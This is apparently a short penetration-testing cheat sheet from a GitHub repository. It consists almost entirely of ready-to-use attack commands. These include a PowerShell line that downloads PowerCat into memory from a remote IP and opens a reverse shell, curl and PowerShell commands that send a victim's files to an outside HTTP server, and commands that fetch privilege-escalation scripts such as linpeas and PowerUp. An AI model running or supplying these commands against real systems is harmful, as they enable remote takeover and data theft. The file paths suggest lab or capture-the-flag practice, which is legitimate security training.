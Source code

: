 # Cybersecurity Tools and Files
# **PowerCat**
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.10.10:8000/
```
Curl Download
```
curl -O http://192.168.10.10:8000/download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "C:\Users\Administrator\Desktop\flag.txt"; $Url = "http://192.168.10.10:8000/"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "http://192.168.10.10:8000/download/PowerUp.ps1" -OutFile "C:\Users\Administrator\Desktop\PowerUp.ps1"
```
